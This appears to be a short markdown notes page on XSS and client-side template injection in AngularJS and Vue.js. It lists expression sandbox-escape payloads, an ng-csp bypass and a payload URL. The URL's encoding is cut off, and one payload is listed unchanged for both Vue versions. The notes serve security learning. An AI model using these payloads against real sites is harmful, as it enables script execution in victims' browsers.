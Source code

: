__Check more VUE payloads in [portsiwgger](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#vuejs-reflected)__
![image1](Image/xss.png)

## DOM XSS in AngularJS expression

- __When HTML contains ng-app attribute__
  - __you can execute arbitrary JavaScript code__
  - __To get the payloads go to book.hacktricks.xyz__
  - __use any payload in the search bar__
```javascript
{{$on.constructor('alert(1)')()}}
{{constructor.constructor('alert(1)')()}}
<input ng-focus=$event.view.alert('XSS')>

<!-- Google Research - AngularJS -->
<div ng-app ng-csp><textarea autofocus ng-focus="d=$event.view.document;d.location.hash.match('x1') ? '' : d.location='//localhost/mH/'"></textarea></div>
```

## vueJS
- Working payload: `https://vue-client-side-template-injection-example.azu.now.sh/?name=%7B%7Bthis.constructor.constructor(%27alert(%22foo%22)%27)()%7D%`
- A really good post on CSTI in VUE can be found in [portswigger.net](https://portswigger.net/research/evading-defences-using-vuejs-script-gadgets)
  ### v3
    - `{{_openBlock.constructor('alert(1)')()}}`
  
  ### v2
    - `{{_openBlock.constructor('alert(1)')()}}`
